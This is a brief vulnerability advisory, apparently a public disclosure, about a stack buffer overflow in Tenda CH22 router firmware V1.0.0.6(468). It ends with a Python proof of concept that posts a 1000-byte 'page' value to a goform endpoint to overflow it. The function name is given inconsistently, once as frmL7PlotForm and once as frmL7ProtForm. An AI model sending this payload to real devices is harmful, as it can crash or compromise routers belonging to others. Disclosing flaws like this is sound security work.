


## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware has a stack overflow vulnerability located in the `frmL7PlotForm` function. This function accepts the `page` parameter from a POST request. The statement `v1 = sprintf(s, "im.asp?page=%s", v6);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v1` array, thus triggering this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/frmL7ProtForm"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```
